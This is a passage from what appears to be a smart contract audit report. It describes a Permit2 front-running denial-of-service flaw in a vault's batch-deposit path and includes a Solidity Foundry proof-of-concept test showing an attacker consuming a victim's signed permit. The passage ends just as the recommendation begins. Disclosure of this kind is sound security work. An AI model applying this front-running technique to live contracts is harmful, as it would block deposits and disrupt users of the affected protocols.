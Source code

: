 Besides the risk of stealing depositor funds, there is another implication that allows an attacker to carry out a Denial of Service (DoS) attack, as described in this [article](https://www.trust-security.xyz/post/permission-denied) and in the PoC below:

```solidity
function testDoS() public {
    batches = zeroBatches;
    token1.mint(lender, amount);
    // Alice signs a transaction allowing a third party to deposit on her behalf
    vm.startPrank(lender);
    token1.approve(address(permit2), 2 ** 256 - 1);
    IAllowanceTransfer.PermitSingle memory permit = IAllowanceTransfer.PermitSingle({
        details: IAllowanceTransfer.PermitDetails({
            token: address(token1),
            amount: uint160(amount),
            expiration: uint48(block.timestamp + 1000),
            nonce: 0
        }),
        spender: address(vault1),
        sigDeadline: block.timestamp + 1000
    });
    bytes memory sig = getPermitSignature(permit, lenderPrivateKey, permit2.DOMAIN_SEPARATOR());

    // third party want send a transaction to depositPermit2 and mint dr on behalf of Alice
    data = abi.encodeWithSelector(
        ERC20VaultPattern.depositPermit2.selector, permit, address(lender), sig, uint160(amount)
    );
    batch = IBaseLayer.BatchItem(address(vault1), data);
    batches.push(batch);
    data = abi.encodeWithSelector(BaseLayer.drMint.selector, address(vault1), accountIdLender, amount);
    batch = IBaseLayer.BatchItem(address(baseLayer), data);
    batches.push(batch);

    // Bob frontruns the above tx with a permit call
    vm.startPrank(maliciousUser);
    IAllowanceTransfer(address(permit2)).permit(address(lender), permit, sig);

    // third party batch call
    vm.startPrank(lender2);
    vm.expectRevert();
    baseLayer.dispatchBatch(batches);
}
```

#### Impact

High. An attacker can steal depositor funds, and DoS attacks can disrupt protocols built on top of `BaseLayer` that rely on the permit functionality.

#### Recommendation

To mitigate the DoS issue you need to change `_permit2()`:
